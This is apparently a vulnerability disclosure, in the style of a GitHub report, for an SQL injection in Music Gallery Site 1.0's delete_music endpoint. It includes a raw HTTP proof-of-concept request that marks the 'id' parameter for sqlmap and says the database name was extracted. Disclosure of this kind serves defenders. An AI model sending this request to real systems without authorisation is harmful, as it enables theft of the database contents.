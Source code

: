 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
/php-music/classes/Master.php?f=delete_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/classes/Master.php?f=delete_music with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /php-music/classes/Master.php?f=delete_music HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 58
Origin: http://localhost
Connection: close
Referer: http://localhost/php-music/admin/?page=musics
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=4*
```

Get database name through sqlmap
<img width="952" alt="image" src="https://github.com/user-attachments/assets/4ab7457c-bf5b-40c7-8db9-b56d938b1c66">
<img width="934" alt="image" src="https://github.com/user-attachments/assets/4da028db-1962-427b-a6dd-dae10c96e4c3">

